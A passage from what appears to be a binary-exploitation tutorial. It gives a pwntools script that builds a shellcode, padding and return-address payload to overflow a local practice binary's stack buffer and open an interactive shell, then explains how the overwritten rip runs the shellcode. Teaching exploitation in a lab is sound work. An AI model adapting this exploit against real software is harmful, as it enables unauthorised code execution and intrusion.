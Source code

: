 ```python
# construct payload
payload = shellcode                                      # shellcode
payload += b"A" * (overflow_offset_rip - len(shellcode)) # fill up buffer to 280 bytes
payload += p64(new_rip)                                  # pack little endian

# connect to the vulnerable program
p = process("./vuln_1")

# send payload
p.sendafter(b"Hey, whats your name!?\n", payload)
p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

p.interactive()
```

All we have to do is set our offset in `overflow_offset_rip` to 280 (0x118), and set `new_rip` to the start of our buffer (the address of our shellcode). What we're going to send to the vulnerable program looks essentially like this:
<br>
<br>
![](/md-images/Pasted%20image%2020231121173335.png)
<br>
<br>
When `overflow()` returns, and the CPU reads the address of the saved `rip` it will read the address we put at the end of our buffer. The CPU will then go to that address on the stack and execute our shell code!

## Exploit it Yo!

All you have to do now is `chmod +x` your exploit script and then run it. It will start the vulnerable process and send the exploit:
